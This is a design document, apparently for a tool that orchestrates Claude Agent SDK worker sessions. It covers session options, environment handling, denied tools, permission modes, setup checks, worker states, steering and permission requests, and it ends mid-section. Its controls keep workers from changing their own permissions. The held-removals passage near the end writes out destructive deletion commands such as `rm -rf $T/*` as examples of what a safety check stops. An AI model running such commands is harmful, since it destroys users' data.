Each worker is one `query()` in **streaming input mode**, which the SDK docs call "the **preferred** way to use the Claude Agent SDK … a long lived process that takes in user input, handles interruptions, surfaces permission requests, and handles session management".

```ts
// illustrative
const q = query({
  prompt: inbox,                       // AsyncIterable<SDKUserMessage>, fed from an Effect Queue
  options: {
    cwd: worktreePath,
    projectConfigRoot: mainCheckout,   // project settings, hooks, .mcp.json, agents, skills from the main checkout
    settingSources: ["user", "project", "local"],
    permissionMode: settings.workers.permissionMode,   // "auto" (D11)
    model: settings.workers.model,     // undefined → Claude Code's default
    effort: settings.workers.effort,   // low | medium | high | xhigh | max
    systemPrompt: { type: "preset", preset: "claude_code", append: standingRules, snapshot: true },
    sessionId: newSessionId,           // a UUID tutti draws, saved once the session begins (§4.8)
    // resume: savedSessionId,         // instead of sessionId when resuming (§4.8)
    mcpServers: chosenServers,         // definitions resolved by name (§4.6)
    strictMcpConfig: true,             // no other MCP server loads
    disallowedTools: unusedTools,      // the tools workers never use (below)
    canUseTool: attention.request(ticketId),   // §4.5
    hooks: activityHooks(ticketId),    // in-process callbacks (§4.2), the verifier's foreground hook
    onElicitation: attention.elicitation(ticketId),
    forwardSubagentText: true,         // subagents' text, for the nested transcript (§7.5)
    includePartialMessages: true,      // live text for an open worker view (§4.4)
    stderr: transcripts.stderr(ticketId),
    env: workerEnv(),                  // §4.13: { ...process.env, ...tutti's variables }, the API key handled
    pathToClaudeCodeExecutable: claudeBinary,   // the embedded binary, extracted (§12)
    spawnClaudeCodeProcess: spawnInOwnProcessGroup,   // with its reaper (§3.2)
    abortController,
  },
})
```

**`env` replaces the subprocess's environment.** The SDK's types say so: "it is not merged with `process.env`". `workerEnv()` therefore starts from `process.env` and adds:

- `CLAUDE_CODE_EMIT_SESSION_STATE_EVENTS=1`: `session_state_changed` messages (§4.2)
- `CLAUDE_CODE_STARTUP_FAILURE_RESULTS=1`: a startup failure Claude Code itself detects comes as a result with a `startup_failure_reason` (`cwd_unavailable`, `org_config_refused`, …), not just stderr. A removed worktree gives none: the spawn fails before Claude Code runs (§4.8, Resume limits)
- `CLAUDE_CODE_FORK_SUBAGENT=0`: no `fork` subagent type. A fork inherits the worker's context and always runs in the background, so workers don't get it. This variable doesn't keep the verifier in the foreground (below)
- `CLAUDE_AGENT_SDK_CLIENT_APP=tutti/<version>`
- `BASH_DEFAULT_TIMEOUT_MS`: the merge check's time limit (`checks.fast.timeout`), and `BASH_MAX_TIMEOUT_MS`: that or 10 minutes, whichever is longer, for workers only. Claude Code's Bash moves a command to the background after 2 minutes unless given a longer timeout, so a check run with no timeout of its own has its time in the foreground, and the worker prompt says to pass none (§4.11)
- `TUTTI_CORES` and `ORCHESTRA_CORES`: the worker's share of the machine's cores, for workers only: the cores (`availableParallelism()`) divided among the run's `concurrent` workers and those running in the machine's other tutti and orchestra runs, as the run last read their registrations (`src/run/machine.ts`), no more workers than `--machine-workers` unless it is `0`, at least one, as orchestra 0.9.0's `coreShare`. The share is taken as the worker's session starts, and kept: one started as another run begins has more than its share until it is started again; and `GOFLAGS` gets `-p=<share>` after the flags it has, unless those set `-p` already. Left alone, a test runner, a linter or Go runs as many things at once as there are cores, so several workers' checks crowd the machine and tests time out in code no ticket touched. `ORCHESTRA_CORES` is set too, for check scripts written for orchestra; the check note tells the worker (§4.11), and tutti's own `scripts/test.ts` keeps bun's JavaScriptCore threads to it (§13)

It then removes or keeps `ANTHROPIC_API_KEY` as §4.13 says.

It leaves out the variables that aren't the user's but belong to where tutti was started, which its sessions don't own: the terminal pane's (`paneVariable`: `HERDR_*`, `CMUX_*`, `TMUX`, `TMUX_PANE`), with which a session reports itself to the terminal as the pane's agent; and those of a Claude Code session tutti was started from (`sessionVariable`: the run skill, an orchestra worker trying tutti, `!tutti`), which that session puts in its shells' environment: `CLAUDECODE`, `CLAUDE_CODE_ENTRYPOINT`, `CLAUDE_CODE_SESSION_ID`, `CLAUDE_CODE_CHILD_SESSION`, `CLAUDE_CODE_SESSION_ATTENDED`, `CLAUDE_CODE_MESSAGING_SOCKET` and `_TOKEN`, `CLAUDE_CODE_EXECPATH`, `CLAUDE_CODE_INVOKED_SKILLS`, `CLAUDE_PID`, `CLAUDE_EFFORT`, `CLAUDE_AGENT_SDK_VERSION`, `AI_AGENT`, `TRACEPARENT` and `TRACESTATE` (Claude Code 2.1.301). Claude Code reads them as its own: with them every worker ran as entrypoint `cli`, an attended child session, and took the parent's messaging socket and token for its own; the SDK sets the entrypoint to `sdk-ts`, and its version, only where they are unset. The user's configuration (`CLAUDE_CONFIG_DIR`, `CLAUDE_CODE_TMPDIR`, …) stays. The probe, organs and the interview get the same environment, and `scripts/test.ts` leaves out the same names for the suites (§13). orchestra's workers start in a multiplexer tab that gets only `PATH` from it, so orchestra has no counterpart.

**What each command tutti starts gets.** Every command starts from tutti's environment less git's local variables, those `git rev-parse --local-env-vars` prints (`GIT_DIR`, `GIT_WORK_TREE`, `GIT_INDEX_FILE`, `GIT_CONFIG_PARAMETERS`, …, `src/services/gitEnv.ts`): tutti started from a git hook, a `rebase --exec` or a shell that exports `GIT_DIR` would otherwise have git in a worktree act on the repository they name, and a rebase there rebase main (tutti-m6hh). The rest of git's variables, the user's configuration (`GIT_AUTHOR_NAME`, `GIT_SSH_COMMAND`, …), stay. From there:

- **git, `bd` and tutti's own reads** (`ps`, `sysctl`, …) get that environment, with what each command sets over it (`GIT_TERMINAL_PROMPT=0`, `GIT_EDITOR=true` for git).
- **What tutti runs on a branch's behalf**: the setup (`checks.setup.command`), the merge and full checks, and the requires list's checks and installs, at a run's start, after a merge that changed the list, and for `requires_check` (§4.11). These get the workers' environment less tutti's variables (`branchEnv`, set once the account probe has found the billing): without the terminal pane's and a parent Claude Code session's variables, and without `ANTHROPIC_API_KEY` where workers go without it (§4.13). The branch's own scripts then see what they saw when its worker ran them, so a check that passed for the worker passes for tutti alike, a check that starts `claude` runs as a session of its own, not as the parent's child, and the key that workers don't bill doesn't reach a branch's script either. `tutti requires` and `tutti init`, with no run and so no login known, keep the key.
- **Workers, organs, the probe and the interview** get that environment with tutti's variables laid over it (`workerEnv`, above). It too is resolved once, as the run starts, as the `WorkerEnv` reference beside `BranchEnv` (`src/agent/env.ts`, set in `main.ts`); ClaudeCode's adapter lays a worker's share of the machine over it for each session, and the layers that open sessions take neither the account nor tutti's environment to make it again.

**The verifier runs in the foreground, through a hook.** Agents a session's main thread launches run in the background by default. The parent's turn then ends with a `result` while the verifier is still running, and a second turn follows its `task_notification`. Neither `CLAUDE_CODE_FORK_SUBAGENT=0` nor `AgentDefinition.background: false` (in `agents` or the agent's frontmatter) changes that: `background` only ever turns the background on (docs/spikes/03-sdk-mcp-subagents.md, § 2, Claude Code 2.1.301). So `activityHooks` adds one `PreToolUse` callback with matcher `Agent`. When the call's `subagent_type` is `verifier`, the name the worker prompt gives it (§4.11), it returns `updatedInput`: the call's input with `run_in_background: false`. Otherwise it returns `{}`.

- It holds whether or not the model passes the flag. The worker prompt's "run it in the foreground" stays as guidance.
- It sets no `permissionDecision`, so `canUseTool` and auto mode decide the call as before.
- It touches only the verifier. Other subagents and background Bash still run in the background, and `background_tasks_changed` keeps a worker `Working` while they do (§4.2).
- The stream's `assistant` message still shows the model's input, without `run_in_background`. The transcript shows what the model asked for, not what ran.

`CLAUDE_CODE_DISABLE_BACKGROUND_TASKS=1` would also keep the verifier in the foreground, with no hook, but tutti doesn't set it. It turns off every background task in the session: other subagents, and background Bash. "Checks in the foreground" (§4.11) stays a rule of the worker prompt, not a switch.

**The tools workers never use are denied.** Claude Code describes each tool it offers in every request. Artifact, ListAgents, ReportFindings, ScheduleWakeup, SendFeedback and Workflow, which no worker of orchestra's 484 sessions called, and Skill, with its listing of the user's skills, came to about 28k tokens a call: a worker's first call opened with 11.9k tokens rather than 39.2k without them (orchestra, Claude Code 2.1.303). So every worker's session, new or resumed, and the login probe's, gets them in `disallowedTools` (`src/agent/unusedTools.ts`); a denied tool isn't described to the model. Workers keep the rest, and any tool a later Claude Code adds: Bash, Read, Edit, Write, Agent (the verifier), ToolSearch (the MCP servers' tools), the task tools and the other deferred tools, and `AskUserQuestion` unless `workers.ask_user_question` is off (§15, Q3), which adds it to the list.

- **Skill stays when the project has skills of its own**, which its workers reach only through it: anything in the main checkout's `.claude/skills` or `.claude/commands`, or a plugin enabled in its `.claude/settings.json` or `.claude/settings.local.json` (an `enabledPlugins` entry not `false`; any enabled plugin counts as having skills). The live AgentHost decides once, from the main checkout, as the run begins. The login probe, sent no prompt, is denied Skill whatever the project has.
- The feature interview, the breakdown's session, isn't given the list: its `tools` are its whole built-in set (§4.10, §4.14).
- `test/contract/tools.test.ts` reads a worker's first `system/init`: its `tools` lack exactly the denied ones Claude Code has, and keep Skill in a project with skills.

**Permission mode and settings.**

- `permissionMode` is always passed. Left out, Claude Code would pick the settings' `defaultMode` or `'auto'` on its own. tutti accepts `auto` (the default), `default` or `acceptEdits` from settings, and refuses `bypassPermissions` and `plan`.
- `projectConfigRoot` makes project settings, hooks, `.mcp.json`, `.claude/agents` (the verifier) and skills come from the main checkout, not from the ticket's branch. A worker can't change its own permissions, or the next worker's, by editing `.claude/settings.json` on its branch. CLAUDE.md still comes from the worktree.
- **Project allow rules need a trusted main checkout.** Claude Code reads the main checkout's settings through `projectConfigRoot`, but ignores their `permissions.allow` entries while that folder hasn't been trusted (its folder-trust dialog, never accepted there). Nothing in `system/init` or `initializationResult()` says so; only stderr does: `Ignoring 1 permissions.allow entry from .claude/settings.json: this workspace has not been trusted. …` (docs/spikes/01-sdk-session.md, item 6, Claude Code 2.1.301). Workers would then ask, or leave to auto mode, what your project allows. The probe catches it at startup, as a setup problem (§4.13).

**Checking the first `system/init` of each session.** tutti reads it and acts on three things:

- **The permission mode in effect.** If auto mode isn't available (an account or model without it), the mode in effect differs. The log and the `START` block say so once: `permission mode: default (auto mode isn't available here)`.
- **The MCP servers loaded.** These must be exactly the chosen names, each with source `dynamic` (a definition passed in `mcpServers`) or `sdk` (an in-process server), as §4.6 says. Names and sources are compared, not statuses. Any other server stops that worker and is a setup problem.
- **The API key source** (§4.13).

tutti decodes these fields with a Schema rather than trusting the SDK's types, since a CLI of another version may send a first `system/init` without one. Without `mcp_servers` it can't tell which servers the worker got, so the worker ends before it does anything, as a setup problem: `Claude Code's system/init doesn't list workers' MCP servers in a shape tutti reads (mcp_servers), so it can't check they got only the ones they were given`. Without `permissionMode` or `apiKeySource`, that check alone is skipped, and the log says so once in the run: `system/init gives no <field> tutti can read, so it doesn't check <what>`.

**A setup problem found there stops the run**, as one found at startup does (§5 item 1), since every worker would meet it. The host ends the worker `Gone` with `setup` (`WorkerState.Gone{setup}`); its ticket is neither resumed (§4.8) nor deferred, as its worker did nothing: it is reopened, keeps its worktree, and is `Waiting{setup problem}` until the next run, which starts it afresh. The run holds with `SETUP_PROBLEM: <id>'s worker was stopped before it did anything: <problem>; <id> is reopened (worktree <path>); fix the setup, then run again`, the running tickets finishing first, and ends with exit 2. It counts toward no environment hold (§5 item 11).

**Checking before the first turn.** `system/init` comes only as the first turn starts, its model request already sent, so the API key and MCP server checks run first as the session starts, before it is sent anything: the API key source of the initialize answer's `account` (absent when there is none), and the servers `mcpServerStatus()` lists, each with its `source`. A server listed that the worker wasn't given, or an API key billed beside the subscription login, ends the worker there as a setup problem, `Gone` with `setup` as above, and the start or resume sends it nothing; the run stops as for one `system/init` shows. A new session ended so never began, so nothing is saved for the next run to resume. A chosen server not yet listed isn't a problem there (an in-process server can be listed a moment later, docs/spikes/03), nor is an answer tutti can't read: the first `system/init`'s check stays as the backstop for those. A setup problem found either way kills Claude Code's process group at once, rather than close the session with the SDK's grace (stdin ended, SIGTERM 2 s later), which Claude Code ignores mid-turn (docs/spikes/02-sdk-lifecycle.md).

**Messages.**

- **The standing rules** (the worker prompt, §4.11) go in `systemPrompt.append` and hold only what doesn't change during a ticket's life. With `snapshot: true` (the default), Claude Code records the system prompt with the session, and on resume "a different `append` … is ignored until compaction". Recording is still rolling out across accounts, so tutti must behave correctly with or without it. So the standing rules' notes that can change between a session's launches, the requires list's and the check's (`changingNotes`), reach a resumed worker in its resume's message, after the words "Your session keeps the system prompt it began with" (`resumedNotes`): when they differ from those its session was started or last resumed with in this run, or when it began in an earlier run, which may have had others.
- **The first user message** holds everything specific to this start: the ticket's ID, the time it has (`--ticket-limit`), the `--ticket` scope line, a pointer to the rules, and what an earlier attempt left on the branch (`git log <base>..HEAD`, `git status`). It is sent in the protocol, with no `prompt.md` file and no paste. `PROMPT_AT_LAUNCH`, paste recovery and `PROMPT_FAILED` disappear.
- **Every message tutti composes** (the first message, continue nudges, hand-backs, "your question is answered", "carry on") is sent with `client_composed: true`. These messages embed text tutti doesn't control: ticket titles, file names, check output. A `client_composed` message is delivered "as written, with no `@path` file-mention expansion and no slash-command dispatch". The cost is that its turn starts without the CLI's turn-start attachments, which arrive after the first tool call instead.
- **Messages you type** in a worker's composer are sent without `client_composed` and with `origin: { kind: "human" }`, as the SDK asks hosts to stamp keyboard input.
- **Queueing.** Follow-ups are pushed into the inbox queue as they come. A send isn't a turn of its own. The CLI decides where it runs (docs/spikes/01-sdk-session.md, item 1, Claude Code 2.1.301):
  - **It may join the running turn.** A send pushed during a tool call is folded into the turn between tool rounds. That turn ends with a single `result`, whose `user_message_uuids` lists every send folded into it.
  - **It may share a later turn.** A send pushed while the model writes its final answer waits for a later turn. Queued sends of the same kind (both `client_composed`, or both typed by you) may be coalesced into one turn. A typed and a composed send weren't coalesced in the spike, but tutti doesn't rely on that.
  - **A turn may answer none of them.** The CLI starts a turn by itself to report a finished background task (§4.2).

  So tutti never matches results to sends by counting results. A `result`'s `user_message_uuids` lists every send its turn consumed, and `command_lifecycle` tracks each send, folded or queued (§4.2). The turn that answers a send is the one whose `result` lists its `uuid`. That turn may also have answered other sends, yours or tutti's. `result.user_message_uuid` (singular) isn't used: with three sends folded together it named the first, not the last as the types say. Every rule that counts turns per message counts sends instead, and waits for each one by its `uuid`: the continue nudges and steering (§4.3), hand-backs (§4.7), and the composer's `queued` (§7.5).

### 4.2 Worker state

`WorkerState` is a tagged union, never a string. It says what the worker is doing, and refines its ticket's phase (§5.1) without changing it. `system/init` arrives at the start of **every turn**, not once per session.

| State | Derived from | Card shows |
|---|---|---|
| `Starting` | the session is spawned and its first `system/init` hasn't arrived | `starting` (grey) |
| `Working{doing}` | `session_state_changed: running`, a turn under way, no `idle` since the last `result`, a send of tutti's outstanding, a live background task, or a finished task's report still to come (below). `doing` is the current tool's category | `working`, `editing`, `reading`, `testing` (bold yellow), `subagent` (cyan) |
| `Retrying{attempt, max, status}` | an `api_retry` message, until the next message of the turn | `retrying 3/10 (529)` (yellow) |
| `NeedsYou{requests}` | one or more pending `canUseTool` calls or elicitations, or `session_state_changed: requires_action` | `permission — waiting for you` or `question — waiting for you`, with a count when there are several (red border) |
| `UsageLimited{resetsAt}` | the turn ended on the account's usage limit (§4.12) | `usage limit · resets 14:05` (yellow) |
| `LoginRefused{error, told}` | the turn ended on Claude's login refused: an assistant message of it carried `error: "authentication_failed"`, and its result `is_error` (§4.13). `error` is the result's text, `told` the texts of tutti's sends its result listed (or those outstanding, where it lists none), as tutti wrote them, without the standing rules' notes a resume puts before them | `login refused` (red) |
| `Idle{at}` | the turn ended: see below | `done` (green) |
| `Failed{at, error, interrupted}` | the turn ended on an error that isn't the usage limit: see below | `stopped` (yellow) when `interrupted`, else `failed` (red) |
| `Closed` | tutti closed the session on purpose, keeping its ID (§4.8) | (no card) |
| `Gone{why}` | the session's stream ended or failed without tutti closing it (the subprocess exited or failed to spawn, a protocol error, a `startup_failure_reason`) | `gone` (red) |

**When a turn has ended (`Idle`).** All of these must hold:

- **The turns are over: `session_state_changed: idle` arrived** after the last `result`. The CLI sends `idle` once, after the last queued turn has run, and not between queued turns, whichever way the queued messages were sent. Until it comes, the worker is `Working`: a `result` alone ends a turn, not the worker's work. `idle` says only that no turn is running or queued. It doesn't say the worker's background work is done: it comes right after the `result` even while a background task is live (docs/spikes/01-sdk-session.md, item 4), so the next two conditions are checked as well.
- **The last `result` isn't an error.** `is_error` isn't set. A `success` result with `is_error: true` is an API error ending the turn: a rate limit goes to §4.12, and anything else is a failed turn (`Failed`, below).
- **None of tutti's sends is outstanding.** tutti gives each message it pushes into the inbox a `uuid`, and the CLI reports it in `command_lifecycle` messages (`{ type: "command_lifecycle", command_uuid, state: "queued" | "started" | "completed" | "cancelled" }`, one set per send, whether it ran as a turn of its own, shared one or was folded into the running turn). A send is outstanding from its push until its `completed` or `cancelled`, or until a `result`'s `user_message_uuids` lists it, or an interrupt's receipt or `cancel_async_message` reports it cancelled (§4.8). This covers a message pushed just as the last turn ends, before the CLI says `running` again. `command_lifecycle` isn't in the SDK's `SDKMessage` union, so tutti decodes it from the raw message, and `user_message_uuids` alone suffices when it is missing.
- **No background task is live.** The live set comes from `background_tasks_changed`, whose payload replaces the set each time, and must be empty of tasks that aren't `ambient`. Tasks marked `ambient` (live-update watchers, which the SDK says hosts "should exclude … from activity indicators") don't count. Counting them would keep a worker `Working` forever and its ticket would never merge. A Bash `run_in_background` command and a Monitor watch count: neither is `ambient` (docs/spikes/01-sdk-session.md, item 4).
- **No finished task's report is still to come.** When a task that isn't `ambient` ends between `idle` and the next `running`, the CLI starts a turn by itself to report it: `task_notification`, `background_tasks_changed` without the task, then `running`, `system/init`, a `result` and `idle`, with no send of tutti's behind it. The set empties about 70 ms before `running` arrives, so for that moment the conditions above all hold although a turn is coming. A task leaving the live set in that interval therefore keeps the worker `Working` until the next `idle`. If no `running` follows within 30 s, tutti logs it and stops waiting for that report, so a task that ends without a report can't keep a worker `Working`. A task that ends while a turn is running needs nothing more: its report is folded into that turn or queued behind it, and `idle` comes after it.

**When a turn has failed (`Failed`).** The last `result` has `is_error` set and isn't the usage limit (§4.12) or Claude's login refused (§4.13), and the other conditions for `Idle` hold: the turns are over, none of tutti's sends is outstanding, and no background task is live or report to come. Until they hold, the worker is `Working`, as it would be after a clean result. A failed turn is:

- **an interrupt**, yours (Ctrl+X, §4.3) or tutti's quit (§4.8): an `error_during_execution` result (docs/spikes/02-sdk-lifecycle.md, § 1). `interrupted` is true for that subtype, and the card shows `stopped`, not `working`;
- **an API error** the retries didn't get past (billing, a server error after its `api_retry`s): a `success` result with `is_error: true` and its `api_error_status`; one whose assistant message says `authentication_failed` is `LoginRefused` instead;
- **a turn cut short** by Claude Code's own limits (`error_max_turns`, `error_max_budget_usd`, …).

`error` is the result's text for a `success` result, else its `errors` joined, else its subtype. `at` is when the worker first became `Failed`, as `Idle`'s is. A worker that failed one turn and ends the next cleanly is `Idle`.

`Failed` settles, as orchestra's `StopFailure` hook ends the turn with its failure recorded. Leaving it unsettled would hide such a worker from the per-ticket fiber: an interrupted worker would show `working` while it waits for you, and a worker whose every turn fails on a billing error would never reach the continue nudge, `PAUSED` or the environment hold, only `TICKET_LIMIT`. Once it settles, the per-ticket fiber reads the ticket as for `Idle` (§4.3, §5 item 6): a ticket still in progress gets the continue nudges, unless the worker is steered, which your interrupt makes it; and a ticket settled `Failed` within 2 minutes with nothing done counts toward the environment hold (§5 item 11), as a worker failing at once on a broken machine or account should. The error is shown in the worker's view and given to triage (§6.2).

**A Monitor watch keeps its worker `Working`.** A Monitor call starts a background task (`task_type: "local_bash"`, not `ambient`) that lives until its source ends or it expires (30 minutes in the spike; the worker may re-arm it), and each event it sees starts a turn. A worker that set a watch and ended its turn is waiting for those events, not done. Counting it as `Idle` would settle it: the per-ticket fiber would read a ticket still in progress and send a continue nudge into a worker that is only waiting, and after two nudges and the idle grace the run would hold with `PAUSED` (§4.3). So a watch counts as a live task like any other, however long it lives. `TICKET_LIMIT` bounds it, as it bounds a long turn, and closing or suspending the session ends it (§4.8). While no turn runs and only background tasks are live, `doing` is `working`.

**`queued_turn_count` isn't used.** It counts only queued messages sent without `client_composed`, and every message tutti composes is `client_composed` (§4.1). With SDK 0.3.301, two queued `client_composed` nudges left it 0 with another turn still to come, and a queued message you typed followed by a composed one gave 1, then 0 while the composed one was still queued (docs/spikes/01-sdk-session.md, items 1 and 4). Reading it would call a worker `Idle` with a nudge or hand-back still queued.

**What `doing` is.** In-process hook callbacks (`PreToolUse`, `PostToolUse`, `PostToolUseFailure`, `PermissionDenied`, `SubagentStart`, `SubagentStop`, `PreCompact`) set it, classified as orchestra classifies them. A call ends with `PostToolUse`, or with `PostToolUseFailure` when it fails (a check exiting non-zero) and `PermissionDenied` when it is denied; each puts `doing` back, so the card doesn't show the ended call while the worker reads its failure:

- `testing`: Bash running the check command or a known test runner
- `editing`: Edit or Write
- `reading`: Read, Grep or Glob
- `subagent`: the Agent tool
- `working`: anything else

The callbacks also record compactions, for triage and the reviewer.

**Hook callbacks must be cheap.** They run while the tool call waits. They return at once with no decision (`{}`), record asynchronously, and never fail. The verifier's `PreToolUse` callback (§4.1) is the one that returns something, an `updatedInput`, and it too returns at once. An error inside one is logged and swallowed, as orchestra's hooks always exit 0.

**Settled.** A worker has settled when it is `Idle`, `Failed`, `Closed` or `Gone`. `NeedsYou`, `Retrying`, `UsageLimited` and `LoginRefused` are never settled: a `LoginRefused` worker quits the run before its ticket is read (§4.13). Settling is what the per-ticket fiber waits for before it reads the ticket in Beads, as orchestra's settle step does.

### 4.3 What disappears, what stays, and steering

Exact state removes these orchestra mechanisms. Each was a guess about a terminal it couldn't read:

- the 3-minute start-up grace, the 10-minute mid-turn window after a tool use, `UNKNOWN >5min`
- reading a screen for permission dialogs, the folder-trust dialog, the `❯` input box, the latest `⏺` action
- `activity.json`, `turn.json`, `notice.json`, `session.json` and `edits` as files; the `orchestra hook` subcommand; the hook record format (`"v":1`)
- the forked-agent `PreToolUse` after `Stop`: there are no file hooks to be confused
- `process` files, naming adoption in Herdr, pane options in tmux, `cmux.json`
- `--terminal`, `--workspace`, `--agent`, `-prompt-at-launch`

These stay, as orchestra has them:

- **The continue nudge.** A worker `Idle` or `Failed` (§4.2) with its ticket still in progress, with no question and no deferral, is told to continue, at most twice. Then, after a 10-minute idle grace, counted awake (§3.3 "Time awake"), the run holds with `PAUSED`.
  - The two are nudges sent, not turns. After each nudge, the per-ticket fiber waits until that nudge is no longer outstanding (§4.2) and the worker has settled again, then reads the ticket. It doesn't matter whether the nudge ran as a turn of its own or shared one (§4.1).
  - A turn the CLI starts by itself, to report a background task, answers no nudge and uses none up.
- **`TICKET_LIMIT`.** A worker still going this long after dispatch holds the run. The worker isn't interrupted: it goes on, and so does its view. The drain doesn't wait for it, and when the run ends it is suspended (§4.8). The next run resumes it, with its limit counted afresh, as orchestra's `RESUMED` does.
- **`LONG_RUNNING`** is logged once at 2 h without a limit.
- **`BLOCKED`.** An attention request unanswered for 4 minutes holds the run with `BLOCKED >4min: <id> needs you: <what>`. Answering every open request lifts the hold (`HOLD lifted: <id>'s requests were answered`), since what held the run is gone. This differs from orchestra, where nobody was there to answer.

**Refused permissions.** When you deny a request (§4.5), the worker's turn normally goes on with the refusal as the tool's result. If the turn ends there instead, the nudge rules above apply.

**Steering.** A worker becomes *steered* when you send it a message from its composer or interrupt it (Ctrl+X).

- **tutti sends a steered worker nothing automatically:** no continue nudges, no hand-backs, no "carry on".
- **A hand-back due to it waits.** It appears in its view as a notice with **Hand it the conflict now**. Its ticket is `Blocked{MERGE_CONFLICT}` meanwhile, and its session stays open (§4.8): its view still takes your messages, interrupts and **Release**.
  - **It stays within reach.** The ticket keeps its card meanwhile, in its place among the cards, the card's status `conflict waits for you`, with no spinner, so a click, or `Tab` then `Enter`, opens its view as before.
  - **The run waits for it**, with a dashboard, as for a worker waiting on you (D19, §5 item 14): the end-of-run box names it, `<id> (a merge conflict waits for you)`, until it is handed over, its worker is released, or `q` ends the run, leaving it `Blocked`. In plain mode, where nothing can hand it over, the run ends as usual.
  - **Hand it the conflict now** hands the conflict over. The ticket, `Blocked` on `MERGE_CONFLICT`, goes back in the merge queue (§5.1) and is rebased again. If it still conflicts, the conflict is handed back to the worker, steered as it is: the steered check is waived for that one hand-back.
- **A message you type may join a turn of tutti's.** Sent while a nudge or hand-back runs, it can be folded into that turn (§4.1), and one turn then answers both. The worker is steered from your send. tutti sends nothing after that turn, but it still reads the ticket and verifies what a hand-back left (§4.7): reading and verifying send nothing.
- **The idle grace for `PAUSED` counts from your last message.**
- **A message to a ticket waiting to merge or merging is held** (`ToMerge`, `Merging`; `src/run/held.ts`). Its ticket is checked at a commit of its branch and merges only at that one (§5 item 7), and its worker settled before it went to merge, so it has no turn to commit in unless you give it one. A message you send then isn't sent: the worker is steered, the log says `your message to <id>'s worker (212 characters) is held, as <id> is merging: tutti sends it once the merge is over, so that its branch doesn't move under its check` (`waits to merge` in `ToMerge`), and the message waits. Whether a message is held and its sending are one step, under one permit, and a ticket the merge queue moves into its line is marked going under it until its phase has moved: a message to it meanwhile is held, so none is sent into its merge. Once the merge is over the held messages are sent in the order you wrote them, each with its `MESSAGE` line, if the ticket keeps its card: blocked with its hand-back waiting for its steered worker, or handed back to a worker you released meanwhile, where they go before the hand-back's message, as you wrote them before the merge stopped. Merged, closed, set aside or blocked otherwise, its worker has finished, and the log says `your message held for <id>'s worker was not sent: its merge is over, and its worker has finished`. An interrupt (Ctrl+X) cancels them, as it cancels messages queued behind a turn: `your message held for <id>'s worker is cancelled by your interrupt: it is not sent`. A merge put back in line by a quit isn't over: the run's end, stopping the ticket, drops them. This is chosen over refusing a `git commit` in its worktree from its `PreToolUse` hook: a turn could still change its files, leaving the worktree dirty for the merge (`DIRTY_WORKTREE`), and a commit through a script or another git command would slip past the match. A commit made by hand meanwhile is still checked first (§5 item 7).
- **Releasing a worker** (**Release** in its view, or `Ctrl+R`) makes it unsteered, wherever its ticket is. Leaving its view doesn't release it.
  - A hand-back waiting for it is handed over then, as **Hand it the conflict now** does (`Blocked` → `ToMerge`, rebased again, the conflict handed back), since it waited only because the worker was steered. The log says `you released <id>'s worker; <branch> is back in the merge queue, to be rebased onto <base> again and its conflict handed back`. Steered again before that rebase, the worker makes it wait again.
- **Recording.** The card shows `steered` beside the status. The log records `STEERED: <id>` and `RELEASED: <id>`.

### 4.4 Activity, live text and transcripts

- **tutti keeps its own transcript of each worker.** Every SDK message the session sends, other than partial `stream_event`s, is appended to `.tutti/run/workers/<id>/messages.jsonl` in the main checkout, one line each, in tutti's own schema. The SDK message is stored inside it, with tutti's sequence number and the session ID. The worker's `stderr` goes to `stderr.log` beside it.
  - These files outlive the worktree and the session, survive resumes, and are what the worker view (§7.5) and triage (§6.2) read.
  - Claude Code's own transcript format (`~/.claude/projects/…`) is internal and undocumented, and tutti doesn't parse it.
- **The latest action for its card** is the current tool call, as `Bash(scripts/check-fast.sh)`, or else the last line of assistant text.
- **In memory**, each worker keeps a ring buffer of its last 200 items for its view.
  - Once its ticket's part in the run is over (merged, by tutti or by hand, closed with no change, deferred, left for review or dropped), the worker is ended as its session closes: `AgentHost` forgets it, and its ring and open files are let go of, once its view, if open, has closed. Its card's latest action is none from then on, so reading it doesn't load the ring again. A run would otherwise hold them for every ticket it finished. A ticket asked or waiting for a merge keeps its worker for the resume that brings it back; a later start or resume reads the ring back from the file.
- **Partial messages** (`stream_event`) are folded in only while that worker's view is open; otherwise they are dropped as they arrive. `includePartialMessages` is set when the session starts and can't be changed for one session, so the dropping must be cheap.

### 4.5 Attention: permission requests and questions

`canUseTool(toolName, input, options)` is where a worker waits on a person.

**The request.** `Attention.request` creates an `AttentionRequest` with:

- an ID drawn by tutti; the ticket; the SDK's `toolUseID`; the subagent's `agentID`, if a subagent asked
- its kind: `Permission{tool, input, suggestions}`, or `Question{questions}` for `AskUserQuestion`
- the SDK's display fields, each optional: `displayName`, `description`, `decisionReason`, `blockedPath` and `title`. What arrives (SDK 0.3.301, Claude Code 2.1.301; docs/spikes/01-sdk-session.md, item 2):
  - `displayName`, on every request: the tool's name (`Bash`, `Write`, `Read`, `Monitor`, `AskUserQuestion`)
  - `description`: the tool call's own description for Bash and Monitor (`Create empty file made-by-bash.txt`), the file name or path for Write and Read; none for `AskUserQuestion`
  - `decisionReason`, on some asks only: a Read outside the folder (`Path is outside allowed working directories`), the safety check's text
  - `blockedPath`: the file a Bash or Monitor call writes, even inside the working directory
  - `title` ("Claude wants to read foo.txt") never arrives from an SDK host: the CLI sets it only from a host-supplied permission display (a `PreToolUse` `permissionDisplay`, internal to Claude Desktop). tutti keeps it and uses it if it comes, and relies on it nowhere
  - `AskUserQuestion` also carries `requiresUserInteraction: true`, which isn't in the SDK's types. tutti doesn't read it: the tool's name already makes the request a question
- its two flags: **`defaultToNo`** ("must not be approvable by a single stray keystroke … offer no one-key approve shortcut") and **`suppressAlwaysAllowRule`** ("must not offer a persistent don't ask again choice"). `defaultToNo` is also set on a request whose `decisionReasonType` is `safetyCheck`, since the CLI doesn't set it there (below)
- its creation time

It puts the request in the worker's queue and returns a `Deferred` the callback awaits. Every field shown is sanitised (§7.10). MCP server names are untrusted text, per the SDK.

**Several at once.** A worker can have several open requests: parallel tool calls each get their own `canUseTool` call, and subagents ask too. Each worker's requests form a queue. Its card shows the oldest and a count (`+2 more`). Answering one shows the next.

**When requests come.** In auto mode (D11), the classifier decides most tool calls, and you're asked only when:

- it can't decide
- one of your `ask` rules matches

Tools the user's settings allow never reach `canUseTool`.

**Held removals.** Claude Code's built-in safety check holds a removal whose target can't be checked before it runs: a variable from the environment (`rm -rf $T/*`), a glob, a home, root or working directory. A variable set in the same command (`T=build; rm -rf "$T"`) isn't held. What happens to a held removal depends on the mode in effect (§4.1):

